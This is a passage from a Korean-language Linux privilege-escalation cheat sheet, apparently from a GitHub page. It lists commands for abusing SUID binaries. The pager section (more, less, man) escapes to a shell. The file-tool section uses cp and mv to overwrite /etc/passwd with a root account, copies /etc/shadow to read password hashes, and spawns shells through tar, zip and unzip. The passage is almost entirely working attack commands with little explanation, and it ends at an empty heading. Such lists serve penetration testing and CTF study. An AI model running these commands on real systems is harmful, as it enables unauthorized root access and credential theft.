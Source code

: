 ### 📄 페이저류

```bash
# more가 SUID인 경우
TERM= /usr/bin/more /etc/profile
# more 프롬프트에서
!/sh

# less가 SUID인 경우
/usr/bin/less /etc/profile
# less에서
!/sh

# man이 SUID인 경우
/usr/bin/man man
# man 페이지에서
!/sh
```

### 📁 파일 조작 도구

```bash
# cp가 SUID인 경우 (/etc/passwd 덮어쓰기)
echo 'root:$6$salt$password:0:0:root:/root:/bin/bash' > /tmp/passwd
/usr/bin/cp /tmp/passwd /etc/passwd
su root

# 또는 shadow 파일 읽기
/usr/bin/cp /etc/shadow /tmp/shadow
cat /tmp/shadow

# mv가 SUID인 경우
echo 'root:$6$salt$password:0:0:root:/root:/bin/bash' > /tmp/passwd
/usr/bin/mv /etc/passwd /etc/passwd.bak
/usr/bin/mv /tmp/passwd /etc/passwd

# tar가 SUID인 경우
/usr/bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# zip가 SUID인 경우
TF=$(mktemp -u)
/usr/bin/zip $TF /etc/hosts -T -TT 'sh #'

# unzip이 SUID인 경우
echo 'sh' > /tmp/evil.sh
chmod +x /tmp/evil.sh
zip /tmp/exploit.zip /tmp/evil.sh
/usr/bin/unzip -j /tmp/exploit.zip -d /tmp
/tmp/evil.sh
```

### 🔧 기타 유용한 도구들
